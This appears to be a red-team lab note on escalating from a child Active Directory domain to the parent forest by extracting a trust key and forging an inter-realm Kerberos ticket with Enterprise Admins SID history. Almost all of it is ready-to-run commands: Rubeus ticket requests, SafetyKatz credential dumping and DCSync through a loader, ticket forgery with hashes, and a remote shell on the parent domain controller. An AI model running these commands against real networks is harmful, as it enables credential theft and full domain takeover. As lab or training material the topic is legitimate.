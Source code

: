 **Domain Admin privileges are required for the following**

Ultimate goal is to extract **trust key** from `Child-DC` and forge a inter-realm ticket that has the sIDHistory set to `509` so we can impersonate a `Enterprise Admin` and access resources from the Parent Domain

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Extract trust key - '`mcorp$` is the trust account
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge inter-realm TGT
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:f03c20c4974d6f6426f4f3c9b4487549 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                 |
| ------------------- | ----------------------------------------------------------- |
| silver              | Name of the module                                          |
| /rc4                | NTLM hash of the trust key                                  |
| /sid                | SID of the current domain                                   |
| /sids               | SID of the **enterprise admins** group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC         |
| /user:Administrator | Username for which the TGT is generated                     |
| /nowrap             | No newlines in the output                                   |

Use forged inter-realm ticket
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

Access Parent Domain DC
```powershell
winrs -r:mcorp-dc.MONEYCORP.LOCAL cmd
```

```powershell

```